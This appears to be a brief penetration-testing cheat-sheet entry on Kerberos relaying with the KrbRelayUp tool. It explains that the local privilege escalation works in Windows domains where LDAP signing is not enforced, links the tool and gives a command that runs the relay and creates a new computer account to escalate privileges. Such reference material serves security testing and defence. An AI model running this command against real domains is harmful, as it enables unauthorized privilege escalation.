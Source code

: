 # Kerberos Relaying

### KrbRelayUp

> A universal no-fix local privilege escalation in windows domain environments where LDAP signing is not enforced (the default settings).

* [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)

One of the requirements for this attack to work is for LDAP Signing to be disabled within the Active Directory environment.

```bash
# Escalate privileges using KrbRelayUp
.\KrbRelayUp.exe relay -Domain $domain -CreateNewComputerAccount -ComputerName $evilname -ComputerPassword $password 
```
